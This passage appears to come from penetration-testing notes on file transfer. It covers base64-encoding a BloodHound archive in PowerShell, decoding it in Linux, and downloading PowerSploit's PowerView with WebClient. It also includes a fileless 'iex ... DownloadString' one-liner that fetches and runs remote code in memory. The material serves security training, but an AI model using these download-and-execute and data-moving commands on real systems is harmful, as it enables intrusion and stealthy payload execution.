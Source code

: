 I explained above how to do encoding in **Linux** and decoding in **Powershell**, now I'll explain opposite: Encode in **Powershell** and decode in **Linux**

1. **Encode File Using Powershell**

```powershell
# If you don't need to copy file to Clipboard, just delete that pipe
PS C:\> [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Tools\2025_BloodHound.zip")) | Set-Clipboard
# Get hash
```

2. **Decode Base64 String in Linux**

```bash
echo justimaginethisissomerandomhashbecauseyoudontcareandidontcare= | base64 -d > 2025_BloodHound.zip
# Or if you encoded file into clipboard, just paste output into file, and decode
base64 -d bhoutput.txt > BH_GRAPH.zip
```

3. **Get & Check Hash**

```powershell
PS C:\> Get-FileHash "C:\Tools\2025_BloodHound.zip" -Algorithm MD5 | select Hash 

$ md5sum 2025_BloodHound.zip
```



### <mark style="color:blue;">Web Downloads</mark>

In any version of **PowerShell**, the **System.Net.WebClient** class can be used to download a file over `HTTP, HTTPS or FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource.

1. **File Download**

```powershell
#Syntax: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

#Syntax: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')

PS C:\> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

2. **PowerShell DownloadString - Fileless Method**. Fileless attacks work by using some operationg system functions to download the payload and execute it directly. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias **IEX**
